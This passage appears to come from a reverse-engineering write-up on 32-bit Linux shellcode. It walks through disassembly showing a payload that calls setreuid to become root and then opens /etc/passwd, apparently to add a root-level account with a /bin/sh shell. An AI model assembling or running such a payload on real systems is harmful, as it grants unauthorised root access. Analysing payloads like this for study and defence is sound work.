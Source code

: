 ```shell_session
0000003F  3449              xor al,0x49
00000041  52                push edx
00000042  633A              arpl [edx],di
00000044  303A              xor [edx],bh
00000046  303A              xor [edx],bh
00000048  3A2F              cmp ch,[edi]
0000004A  3A2F              cmp ch,[edi]
0000004C  62696E            bound ebp,[ecx+0x6e]
0000004F  2F                das
00000050  7368              jnc 0xba
00000052  0A598B            or bl,[ecx-0x75]
00000055  51                push ecx
00000056  FC                cld
00000057  6A04              push byte +0x4
00000059  58                pop eax
0000005A  CD80              int 0x80
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

The first task the payload carries out is setting the real and effective user ID of the process to be the root user. The first instruction XORs `$ecx` with itself, resulting in `0` being stored in the register.

It then moves `$ecx` into `$ebx` (i.e. setting the first and second parameters of the method to be called to `0`).

After setting up the parameters, `0x46` is then pushed on to the stack and popped into `$eax`. By converting the value to an integer and cross-referencing it with `unistd_32.h`, we can see that the call being made is [setreuid](https://linux.die.net/man/2/setreuid):

```shell_session
$ python -c "print int(0x46)"
70
$ grep " 70" /usr/include/x86_64-linux-gnu/asm/unistd_32.h
#define __NR_setreuid 70
```

As a normal user does not have the permission to create new users on the system, the call to [setreuid](https://linux.die.net/man/2/setreuid) is most likely in place to accommodate for scenarios where a process is not running as `root` but is capable of doing so (for example when the `suid` bit is set on an executable).

Once the EUID/UID has been set to `0`, `0x5` is then pushed on to the stack and popped into `$eax` in preparation for another syscall. Again, cross referencing with `unistd_32.h` confirmed the call being made; this time it is to [open](https://linux.die.net/man/2/open).

After setting up the syscall number, `$ecx` is cleared using the `xor` instruction and pushed on to the stack to act as the null terminator for the string that is being specified for the `pathname` parameter.

The value that is pushed on to the stack consists of three dwords:

* `0x64777373`
* `0x61702f2f`
* `0x6374652f`

